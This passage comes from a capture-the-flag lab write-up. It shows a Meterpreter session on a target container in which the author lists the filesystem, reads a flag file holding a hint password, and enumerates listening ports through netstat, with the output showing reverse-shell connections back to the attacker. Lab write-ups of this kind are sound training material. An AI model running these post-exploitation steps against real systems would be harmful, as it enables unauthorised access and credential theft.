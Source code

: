 ```bash
Meterpreter  : x86/linux
meterpreter > cd /
meterpreter > dir
Listing: /
==========

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100755/rwxr-xr-x  0      fil   2025-05-31 20:29:21 +0530  .dockerenv
040755/rwxr-xr-x  12288  dir   2024-11-19 13:22:02 +0530  bin
040755/rwxr-xr-x  4096   dir   2020-04-15 16:39:51 +0530  boot
040755/rwxr-xr-x  340    dir   2025-05-31 20:29:21 +0530  dev
040755/rwxr-xr-x  4096   dir   2025-05-31 20:29:21 +0530  etc
100644/rw-r--r--  80     fil   2025-05-31 20:29:21 +0530  flag1.txt
040755/rwxr-xr-x  4096   dir   2020-04-15 16:39:51 +0530  home
040755/rwxr-xr-x  4096   dir   2024-11-19 13:21:57 +0530  lib
040755/rwxr-xr-x  4096   dir   2024-10-11 07:33:31 +0530  lib32
040755/rwxr-xr-x  4096   dir   2024-10-11 07:39:13 +0530  lib64
040755/rwxr-xr-x  4096   dir   2024-10-11 07:33:31 +0530  libx32
040755/rwxr-xr-x  4096   dir   2024-10-11 07:33:34 +0530  media
040755/rwxr-xr-x  4096   dir   2024-10-11 07:33:34 +0530  mnt
040755/rwxr-xr-x  4096   dir   2024-10-11 07:33:34 +0530  opt
040555/r-xr-xr-x  0      dir   2025-05-31 20:29:21 +0530  proc
040755/rwxr-xr-x  4096   dir   2024-11-19 13:22:58 +0530  proftpd-1.3.5
040700/rwx------  4096   dir   2024-10-11 07:39:22 +0530  root
040755/rwxr-xr-x  4096   dir   2025-05-31 20:29:23 +0530  run
040755/rwxr-xr-x  4096   dir   2024-11-19 13:21:42 +0530  sbin
040755/rwxr-xr-x  4096   dir   2024-10-11 07:33:34 +0530  srv
040555/r-xr-xr-x  0      dir   2024-10-17 17:52:10 +0530  sys
041777/rwxrwxrwx  4096   dir   2025-05-31 20:43:01 +0530  tmp
040755/rwxr-xr-x  4096   dir   2024-10-11 07:33:34 +0530  usr
040755/rwxr-xr-x  4096   dir   2024-11-19 13:21:30 +0530  var

meterpreter > cat flag1.txt 
FLAG1{dd00901f10634a13832************}
Remember, the magical word is 'letmein'
meterpreter > 
```

---

### Flag 2:

Further, a quick interaction with a local network service on target1.ine.local may reveal this flag. Use the hint given in the previous flag.

For this we’ll enumerate the local service that are running  on the target1 machine and let’s took a look at 8888 port. along with cred we fond in flag1.

```bash
meterpreter > netstat -tuln 127.0.0.1

Connection list
===============

    Proto  Local address        Remote address       State        User   Inode  PID/Program name
    -----  -------------        --------------       -----        ----   -----  ----------------
    tcp    127.0.0.1:8888       0.0.0.0:*            LISTEN       0      0
    tcp    127.0.0.11:45289     0.0.0.0:*            LISTEN       65534  0
    tcp    0.0.0.0:21           0.0.0.0:*            LISTEN       65534  0
    tcp    0.0.0.0:80           0.0.0.0:*            LISTEN       0      0
    tcp    192.131.172.3:80     192.131.172.2:45167  CLOSE_WAIT   33     0
    tcp    192.131.172.3:51648  192.131.172.2:4433   ESTABLISHED  33     0
    tcp    192.131.172.3:45816  192.131.172.2:4444   ESTABLISHED  33     0
```